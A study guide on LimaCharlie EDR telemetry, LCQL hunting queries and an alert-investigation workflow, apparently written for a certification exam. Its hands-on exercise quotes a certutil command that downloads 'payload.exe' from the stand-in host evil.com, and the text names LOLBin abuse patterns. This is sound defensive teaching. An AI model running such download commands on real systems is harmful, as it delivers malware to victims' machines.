




# Understanding LimaCharlie's Telemetry Streams

## TCM Exam Objectives

- Query LimaCharlie's event stream using LCQL syntax: timeframe, sensor selector, event type, filters
- Parse the canonical event structure: routing objects and event objects for all key event types
- Leverage routing/this, routing/parent, and routing/target for cross-event correlation
- Monitor the four output streams: event, detect, audit, and deployment
- Investigate critical event types: NEW_PROCESS, DNS_REQUEST, NETWORK_CONNECTIONS, FILE_CREATE, WEL, REGISTRY_WRITE
- Use the Exfil extension to manage telemetry collection and sensor performance
- Apply the PSAA investigation workflow using LimaCharlie telemetry
- Detect encoded PowerShell commands, LOLBin abuse, and anomalous parent-child relationships
- Correlate detections across hosts using sid, hostname, and routing fields

LimaCharlie is a cloud-native, API-first SecOps Cloud Platform that provides real-time Endpoint Detection and Response capabilities. Its lightweight sensor streams verbose telemetry from endpoints to the cloud, and its telemetry streams must be understood to interpret, query, and correlate endpoint data for security investigations.

- LimaCharlie's canonical event structure: routing + event objects
- The four output streams: event, detect, audit, deployment
- Key event types: NEW_PROCESS, DNS_REQUEST, NETWORK_CONNECTIONS, FILE_CREATE, WEL, REGISTRY_WRITE, NEW_REMOTE_THREAD, SENSITIVE_PROCESS_ACCESS
- The Exfil extension for managing telemetry collection
- LimaCharlie Query Language (LCQL) syntax and usage
- Event correlation via routing/this, routing/parent, routing/target
- The PSAA investigation workflow using LimaCharlie telemetry



## 1. Core Concepts: How Telemetry Flows

### 1.1 The Sensor

The LimaCharlie endpoint agent is a cross-platform, lightweight sensor that provides Flight Data Recorder (FDR)-type telemetry. It captures:

- **Process creation and termination** (process tree)
- **Network connections** (TCP/UDP, outbound and inbound, with source/destination IP and port)
- **DNS requests** (domain names resolved, DNS type, resolved IP)
- **File system activity** (file creation, modification, deletion)
- **Registry modifications** (Windows only: key creation, value changes)
- **Code identity** (SHA-256 hashes of executed binaries)
- **Windows Event Logs** (WEL) integrated directly into the event stream
- **Named pipes, autorun changes, service changes, user logins, and more**

The sensor is designed to be "read-only" by default, limiting the potential for abuse, while still providing powerful response capabilities like host isolation, process killing, memory dumping, and forensic file collection [turn0search0].

### 1.2 Adapters

Beyond the endpoint sensor, LimaCharlie can ingest telemetry from any structured data source through **Adapters**. These enable real-time ingestion of logs or telemetry from sources like AWS CloudTrail, GuardDuty, Office 365, or Windows Event Logs, all treated as first-class data within the platform.

### 1.3 The Event Structure

Every event in LimaCharlie follows a **canonical two-level structure**: a `routing` object (metadata) and an `event` object (event-specific data). This consistent design makes correlation, filtering, and rule-writing powerful.

#### The `routing` Object

The `routing` object contains metadata consistent across all event types. This is the first stop for triage and correlation.

| Field | Type | Description | Forensic Value |
| :--- | :--- | :--- | :--- |
| `oid` | UUID | Organization ID | Multi-tenant filtering |
| `sid` | UUID | Sensor ID | Uniquely identifies the endpoint |
| `event_type` | String | Type of event (`NEW_PROCESS`, `DNS_REQUEST`) | Primary filtering field |
| `event_time` | Integer | Unix timestamp in milliseconds | Build precise event timelines |
| `event_id` | UUID | Unique event identifier | Deduplication, event tracking |
| `hostname` | String | Hostname of the sensor | Identify the compromised machine |
| `ext_ip` / `int_ip` | String | External / Internal IP address | Network-based correlation |
| `plat` | Integer | Platform identifier | Platform-specific rules |
| `arch` | Integer | Architecture (x86, x64, ARM) | Context for binary analysis |
| `this` | String (hash) | Hash representing the current process | Critical for correlation |
| `parent` | String (hash) | Hash of the parent process | Reconstruct process tree |
| `target` | String (hash) | Hash of the target object | Track lateral movement |
| `tags` | Array[String] | Sensor tags at event time | Filter by environment tags |

**Key Takeaway:** `routing/this`, `routing/parent`, and `routing/target` are the glue that links events together. They function like Sysmon's ProcessGuid but across the entire event stream.

#### The `event` Object

The `event` object varies entirely by `event_type`. Examples:
- `NEW_PROCESS`: `FILE_PATH`, `COMMAND_LINE`, `PROCESS_ID`, `USER_NAME`, `PARENT`
- `DNS_REQUEST`: `DOMAIN_NAME`, `IP_ADDRESS`, `DNS_TYPE`, `DNS_FLAGS`
- `NETWORK_CONNECTIONS`: `NETWORK_ACTIVITY` (array of connection objects)
- `WEL` (Windows Event Log): `EVENT` (nested Windows event structure)

In Detection & Response rules and LCQL queries, these fields are accessed using `event/` and `routing/` path prefixes (e.g., `event/FILE_PATH`, `routing/hostname`).

---

> 📌 **Exam Tip:** The routing object fields — especially routing/this, routing/parent, and routing/target — are the LimaCharlie equivalent of Sysmon's ProcessGuid. On the PSAA exam, when you see a question about correlating events across process creation, network connections, and file drops, the answer is always pivot on routing/this. This hash follows the process across every event type it generated.

## 2. The Four Output Streams

LimaCharlie routes data through four distinct output streams.

| Stream Type | Purpose | Typical Volume | Investigation Use |
| :--- | :--- | :--- | :--- |
| **event** | Real-time telemetry from sensors and adapters | High | Primary stream for investigation. Process creation, network connections, file events, DNS queries, WEL |
| **detect** | Alerts generated from D&R rules | Low-Medium | Alert triage starting point. Contains rule name, priority, extracted IOCs |
| **audit** | Platform management actions | Low | Tracks configuration changes, user actions, API calls |
| **deployment** | Sensor lifecycle events | Very Low | Sensor installation, removal, upgrades, heartbeats |

The **event** stream is the foundation. It captures what is happening on endpoints. The **detect** stream fires when a D&R rule matches an event; it inherits the event's `routing` object and adds detection-specific metadata like `cat` (detection name), `source`, `detect_id`, `priority`, and `detect_mtd` (extracted IOCs).

---

## 3. Key Event Types

LimaCharlie's EDR sensor generates over 50 distinct event types. The following are essential for every investigation.

### 3.1 NEW_PROCESS

- **Generated when:** A new process starts on the endpoint
- **Platforms:** Windows, macOS, Linux
- **Critical Fields:** `FILE_PATH`, `COMMAND_LINE`, `PROCESS_ID`, `USER_NAME`, `PARENT`
- **Detection Patterns:**
  - Anomalous parent-child relationships (e.g., `winword.exe` spawning `cmd.exe`)
  - Command lines containing encoded PowerShell (`-EncodedCommand`)
  - Executables running from user-writable locations (`%TEMP%`, `%APPDATA%`)
  - LOLBin abuse (`certutil`, `mshta`, `rundll32`, `msbuild`)

**Example LCQL Query:**
```
-1h | plat == windows | NEW_PROCESS | event/COMMAND_LINE contains "-EncodedCommand"
```

### 3.2 DNS_REQUEST

- **Generated when:** A DNS response is received. One event per resolved IP.
- **Platforms:** Windows, macOS, Linux, Chrome, Edge
- **Critical Fields:** `DOMAIN_NAME`, `IP_ADDRESS`, `DNS_TYPE`, `DNS_FLAGS`
- **Detection Patterns:**
  - Queries to known-malicious domains (DGA domains, typosquatted names)
  - DNS tunneling: unusually long subdomains, high entropy TXT queries
  - Sudden spikes in DNS query volume from a single process

**Example LCQL Query:**
```
-24h | * | DNS_REQUEST | event/DOMAIN_NAME contains "pastebin"
```

### 3.3 NETWORK_CONNECTIONS

- **Generated when:** A process establishes a new network connection
- **Platforms:** Windows, macOS, Linux
- **Critical Fields:** `NETWORK_ACTIVITY` (array of connection objects with `PROTOCOL`, `LOCAL_IP`, `LOCAL_PORT`, `REMOTE_IP`, `REMOTE_PORT`, `CONNECTION_STATE`)
- **Detection Patterns:**
  - Outbound connections on unusual ports (4444, 1337, 8080)
  - Connections to known-bad IP addresses
  - Periodic connections at regular intervals (beaconing)
  - Listening socket on a high port (bind shell)
  - Connections to cryptomining pool domains

**Example LCQL Query:**
```
-1h | * | NETWORK_CONNECTIONS | event/NETWORK_ACTIVITY contains "4444"
```

### 3.4 FILE_CREATE

- **Generated when:** A file is created on the endpoint
- **Platforms:** Windows, macOS, Linux
- **Critical Fields:** `FILE_PATH`, `HASH`
- **Detection Patterns:**
  - Executables (`.exe`, `.dll`, `.scr`) dropped in `%TEMP%`, `%APPDATA%`, or `C:\Users\Public\`
  - Script files (`.vbs`, `.ps1`, `.bat`) appearing in temp directories
  - Files placed in startup folders
  - Malware payloads dropped after a macro executes

**Example LCQL Query:**
```
-24h | plat == windows | FILE_CREATE | event/FILE_PATH contains "AppData\\Local\\Temp"
```

### 3.5 WEL (Windows Event Logs)

- **Generated when:** Windows Event Logs are forwarded through LimaCharlie
- **Platforms:** Windows
- **Critical Fields:** `EVENT` (nested Windows event in JSON: `EventID`, `Channel`, `SystemTime`, `EventData`)
- **Detection Patterns:**
  - Security Event ID 4688 (process creation)
  - Security Event ID 4624/4625 (successful/failed logons)
  - System Event ID 7045 (new service installed)
  - PowerShell Operational Event ID 4104 (script block logging)

### 3.6 Other Essential Event Types

| Event Type | Description | Relevance |
| :--- | :--- | :--- |
| **EXISTING_PROCESS** | Processes running before the sensor loaded | Completes process tree for long-running malware |
| **FILE_MODIFIED** | File modification events | Detect ransomware activity (mass file modifications) |
| **FILE_DELETE** | File deletion events | Self-deleting malware, shadow copy deletion |
| **REGISTRY_CREATE / REGISTRY_WRITE / REGISTRY_DELETE** | Registry modifications | Detect persistence (Run keys, services) |
| **NEW_REMOTE_THREAD** | Thread creation by one process in another | Classic code injection indicator |
| **SENSITIVE_PROCESS_ACCESS** | Access to high-value processes like `lsass.exe` | Credential dumping detection |
| **NEW_DOCUMENT** | File creation matching document extensions | Track malicious documents dropped |
| **AUTORUN_CHANGE** | Autorun configuration change | Detect registry or startup folder persistence |
| **SERVICE_CHANGE** | Service creation or modification | Identify malicious service installation |
| **CODE_IDENTITY** | Unique file hash + path seen for first time | Track new binaries without process execution noise |
| **YARA_DETECTION** | YARA rule match | Automated malware family identification |

---

## 4. Managing Telemetry: The Exfil Extension

The **Exfil (Event Collection)** extension lets you customize which event types are sent from sensors to the LimaCharlie cloud.

Key features:
- **Event Collection Rules:** Manage which events the sensor transmits to the cloud
- **Performance Rules:** Throttle events on high-I/O systems (Windows only)
- **Watch Rules:** Conditional event filtering (e.g., only send `MODULE_LOAD` events where `FILE_PATH` ends with `wininet.dll`)
- **IR Mode:** Tag a sensor with `ir` to record a very large number of events (all event types) while still running D&R rules over critical event types
- **Afterburner:** Automatic deduplication of spammy processes during high-volume bursts

---

## 5. Querying Telemetry: The LimaCharlie Query Language (LCQL)

LCQL provides a flexible way to explore telemetry across the entire fleet. Every LCQL query consists of four required components (and one optional), separated by pipes (`|`):

```
<Timeframe> | <Sensor Selector> | <Event Type> | <Filters> | <Projection> (optional)
```

| Component | Description | Example |
| :--- | :--- | :--- |
| **Timeframe** | Single offset (`-1h`, `-30m`) or date range | `-24h` or `2026-05-18 10:00:00 to 2026-05-18 14:00:00` |
| **Sensor Selector** | `*` for all, or Sensor Selector expression | `plat == windows` or `hostname == DESKTOP-ABC123` |
| **Event Type** | One or more event types, joined by `or` | `NEW_PROCESS` or `DNS_REQUEST` or `NETWORK_CONNECTIONS` |
| **Filters** | Conditions joined by `and` / `or`, using field paths | `event/COMMAND_LINE contains "certutil" and event/FILE_PATH contains "Temp"` |
| **Projection** | Optional list of fields to extract, with aliases and grouping | `event/FILE_PATH as path COUNT(hostname) GROUP BY(path)` |

**PSAA-Style LCQL Examples:**

```lcql
# Find all outbound connections from a specific host to port 4444
-24h | hostname == DESKTOP-ABC123 | NETWORK_CONNECTIONS | event/NETWORK_ACTIVITY contains "4444"

# Hunt for encoded PowerShell commands across the fleet
-7d | plat == windows | NEW_PROCESS | event/COMMAND_LINE contains "-EncodedCommand"

# List processes that resolved a known-malicious domain
-24h | * | DNS_REQUEST | event/DOMAIN_NAME contains "evil.com"

# Find files created in temp directories by non-system processes
-1h | * | FILE_CREATE | event/FILE_PATH contains "Temp" and routing/plat == windows
```

<details>
<summary>Advanced LCQL Techniques</summary>

**Projections:** Extract and group specific fields:
```lcql
-24h | * | NEW_PROCESS | event/FILE_PATH as path, routing/hostname as host COUNT(event/FILE_PATH) GROUP BY(path)
```

**Multiple event types:** Query across event types in a single query:
```lcql
-24h | hostname == DESKTOP-ABC123 | NEW_PROCESS or NETWORK_CONNECTIONS or FILE_CREATE | event/FILE_PATH contains "malware"
```

**Tag-based filtering:** Filter by sensor tags:
```lcql
-24h | tags contains "production" | NEW_PROCESS | event/COMMAND_LINE contains "wget"
```

**Exclusion patterns:** Exclude known-good paths:
```lcql
-24h | * | NEW_PROCESS | event/FILE_PATH not contains "Windows\\System32" and event/FILE_PATH ends with ".exe"
```
</details>

---

> 📌 **Exam Tip:** The LCQL query structure — `Timeframe | Sensor Selector | Event Type | Filters | Projection` — must be memorized for the PSAA exam. Every component is required except Projection. Common mistakes include forgetting the pipe separators, using the wrong timeframe syntax (use -1h not -1 h), or omitting the event type. Practice writing LCQL queries against a sample dataset before the exam.

## 6. Event Correlation: routing/this, routing/parent, routing/target

The true forensic power of LimaCharlie's telemetry lies in its correlation fields. These three hashes allow following a process across every event type -- network connections, file drops, registry changes, DNS queries -- to reconstruct the complete attack narrative.

### 6.1 How Correlation Works

- `routing/this`: A hash uniquely representing the current process or object that generated the event. Every event from a given process shares the same `routing/this`.
- `routing/parent`: The hash of the parent process. Traces the process tree upward.
- `routing/target`: The hash of the target object, used when one process acts on another (e.g., `NEW_REMOTE_THREAD`, `SENSITIVE_PROCESS_ACCESS`).

### 6.2 The Correlation Workflow



1. Start with a suspicious process creation event (`NEW_PROCESS`). Note the `routing/this` hash.
2. Pivot to network connections: Query `NETWORK_CONNECTIONS` where `routing/this` matches. Reveals C2 infrastructure.
3. Pivot to DNS queries: Query `DNS_REQUEST` where `routing/this` matches. Reveals domains resolved by the malware.
4. Pivot to file operations: Query `FILE_CREATE` where `routing/this` matches. Reveals dropped payloads.
5. Pivot to registry modifications: Query `REGISTRY_WRITE` where `routing/this` matches. Reveals persistence mechanisms.
6. Pivot to child processes: Query `NEW_PROCESS` where `routing/parent` matches the original `routing/this`. Builds the process tree downward.

This correlation is functionally equivalent to Sysmon's ProcessGuid linkage, but unified across the entire LimaCharlie event stream [turn0search3].

---

## 7. The PSAA Investigation Workflow Using LimaCharlie Telemetry



### Phase 1: Receive and Triage the Detection

A detection is received from the `detect` stream. Note:
- `routing/hostname`: Which endpoint is involved
- `routing/event_time`: The timestamp of the triggering event
- `detect/cat`: The rule that fired (e.g., "Suspicious Office Macro Execution")
- `detect/detect_mtd`: Any extracted IOCs (file paths, domains, IPs)

### Phase 2: Pivot to the Triggering Event

The detection inherits the `routing` object from the original event. Use the `sid` and `event_time` to locate the full event in the `event` stream. View the complete `event` object to see the process command line, file path, or network destination that triggered the rule.

### Phase 3: Trace the Process via `routing/this`

1. Query `NEW_PROCESS` events for that specific `routing/this` to get full process creation details
2. Query `NETWORK_CONNECTIONS` for that `routing/this` to map outbound C2 connections
3. Query `DNS_REQUEST` for that `routing/this` to see domain resolution
4. Query `FILE_CREATE` for that `routing/this` to identify dropped payloads
5. Query `REGISTRY_WRITE` for that `routing/this` to find persistence modifications

### Phase 4: Build the Process Tree

Query for child processes by searching `NEW_PROCESS` events where `routing/parent` equals the original `routing/this`. Repeat recursively to build the full attack tree.

### Phase 5: Scope the Network Impact

Compile all remote IP addresses, ports, and domains contacted. These become network-level Indicators of Compromise (IOCs).

### Phase 6: Document and Report

The incident report must include:
- The original detection alert and the rule that fired
- The complete process tree with command lines and timestamps
- All network IOCs (IPs, ports, domains)
- All file IOCs (dropped binary paths, hashes)
- The identified persistence mechanism
- A clear conclusion and recommended remediation

---

## 8. Hands-On Exercise

**Scenario:** A high-severity alert fires: "Suspicious Process Creation -- Office Application Spawned Command Shell." The detection metadata shows:

```
hostname: DESKTOP-ABC123
event_time: 2026-05-18 14:20:03
cat: Office Macro Execution Detected
triggering_event: NEW_PROCESS
event/FILE_PATH: C:\Windows\System32\cmd.exe
event/COMMAND_LINE: "C:\Windows\System32\cmd.exe" /c certutil -urlcache -f http://evil.com/payload.exe %TEMP%\payload.exe
routing/this: <hash-of-cmd.exe>
routing/parent: <hash-of-winword.exe>
```

### Step 1: Confirm the Anomalous Parent-Child Relationship

Query NEW_PROCESS events for `routing/this` equals the parent hash:
```
-24h | hostname == DESKTOP-ABC123 | NEW_PROCESS | routing/this == "<hash-of-winword.exe>"
```
The result confirms `WINWORD.EXE` is the parent, validating the macro-based delivery vector.

### Step 2: Trace Network Connections

```
-24h | hostname == DESKTOP-ABC123 | NETWORK_CONNECTIONS | routing/this == "<hash-of-cmd.exe>"
```
An outbound connection to `evil.com` on port 80 (the certutil download) is visible.

### Step 3: Find Dropped Payload

```
-24h | hostname == DESKTOP-ABC123 | FILE_CREATE | routing/this == "<hash-of-certutil.exe>"
```
Result: `C:\Users\brolf\AppData\Local\Temp\payload.exe` was created.

### Step 4: Check for Persistence

```
-24h | hostname == DESKTOP-ABC123 | REGISTRY_WRITE | routing/this == "<hash-of-payload.exe>"
```
Result: A Run key was written at `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Updater` pointing to `%TEMP%\payload.exe`.

### Step 5: Write the Incident Report

> **Finding: Confirmed Macro-Based Malware Download and Persistence**
>
> **Detection:** "Office Macro Execution Detected" fired on `DESKTOP-ABC123` at 14:20:03.
>
> **Process Tree:**
> ```
> WINWORD.EXE (PID 1234, hash: <parent>)
>   `-- cmd.exe (PID 5678, hash: <cmd>) /c certutil -urlcache -f http://evil.com/payload.exe %TEMP%\payload.exe
>        `-- certutil.exe (PID 9012, hash: <certutil>)
> ```
>
> **Network IOC:** `certutil.exe` connected to `evil.com` on port 80.
> **File IOC:** `payload.exe` dropped to `%TEMP%`.
> **Persistence:** Run key `HKCU\...\Run\Updater` set to `%TEMP%\payload.exe`.
>
> **Conclusion:** True positive. Malicious Word document with embedded VBA macros executed a download chain, established C2, and persisted. **Severity: Critical.**
>
> **Recommendation:** Isolate `DESKTOP-ABC123`, revoke user credentials, block `evil.com` at the firewall, delete the Run key, remediate the phishing vector.

---

## 9. Quick-Reference Cheat Sheet

### The Four Output Streams

| Stream | Purpose | Use Case |
| :--- | :--- | :--- |
| `event` | Real-time telemetry | Primary investigation data source |
| `detect` | Alerts from D&R rules | Alert triage starting point |
| `audit` | Platform management actions | Configuration change tracking |
| `deployment` | Sensor lifecycle events | Asset tracking, heartbeat monitoring |

### High-Priority Event Types

| Event Type | Key Fields | Detection Use |
| :--- | :--- | :--- |
| `NEW_PROCESS` | `FILE_PATH`, `COMMAND_LINE`, `USER_NAME`, `PARENT` | Process tree, LOLBin abuse, encoded commands |
| `DNS_REQUEST` | `DOMAIN_NAME`, `IP_ADDRESS`, `DNS_TYPE` | Malicious domain lookups, DNS tunneling |
| `NETWORK_CONNECTIONS` | `NETWORK_ACTIVITY` (array) | C2 beaconing, data exfiltration, reverse shells |
| `FILE_CREATE` | `FILE_PATH`, `HASH` | Dropped payloads, script files in temp folders |
| `WEL` | `EVENT` (nested Windows event) | Windows Event Log integration |
| `REGISTRY_WRITE` | `KEY_PATH`, `VALUE_NAME`, `VALUE_DATA` | Persistence detection |
| `NEW_REMOTE_THREAD` | `SOURCE_PROCESS`, `TARGET_PROCESS` | Code injection |
| `SENSITIVE_PROCESS_ACCESS` | `TARGET_PROCESS` (e.g., `lsass.exe`) | Credential dumping |

### Routing Object Critical Fields

| Field | Purpose |
| :--- | :--- |
| `routing/sid` | Uniquely identifies the endpoint |
| `routing/hostname` | Hostname of the sensor |
| `routing/event_type` | Filter by event category |
| `routing/event_time` | Timestamp in milliseconds |
| `routing/plat` | Platform filter |
| `routing/this` | Process/object hash for correlation |
| `routing/parent` | Parent process hash for tree reconstruction |
| `routing/target` | Target object hash for lateral movement |

### LCQL Query Structure

```
<Timeframe> | <Sensor Selector> | <Event Type> | <Filters> | <Projection>
```

**Examples:**
```lcql
-1h | plat == windows | NEW_PROCESS | event/COMMAND_LINE contains "-EncodedCommand"
-24h | * | DNS_REQUEST | event/DOMAIN_NAME contains "pastebin"
-1h | hostname == DESKTOP-ABC123 | NETWORK_CONNECTIONS | event/NETWORK_ACTIVITY contains "4444"
```

### Event Correlation Workflow

1. Find suspicious `NEW_PROCESS` -> note `routing/this`
2. Query `NETWORK_CONNECTIONS` with `routing/this` -> C2 infrastructure
3. Query `DNS_REQUEST` with `routing/this` -> domain resolution
4. Query `FILE_CREATE` with `routing/this` -> dropped payloads
5. Query `REGISTRY_WRITE` with `routing/this` -> persistence mechanisms
6. Query `NEW_PROCESS` with `routing/parent` = `routing/this` -> child processes

---



## Recap

The canonical event structure (`routing` + `event`) is the foundation of all LimaCharlie analysis. `routing/this`, `routing/parent`, and `routing/target` are the equivalent of Sysmon's ProcessGuid and must be followed across event types to trace a malicious process from creation to C2 to persistence. LCQL is the hunting language with the `Timeframe | Sensor Selector | Event Type | Filters` structure. `NEW_PROCESS`, `DNS_REQUEST`, `NETWORK_CONNECTIONS`, and `FILE_CREATE` appear in virtually every investigation. The `detect` stream is the starting point for alert triage, and the correlation hashes link process, network, file, and registry events to reconstruct the full attack timeline.
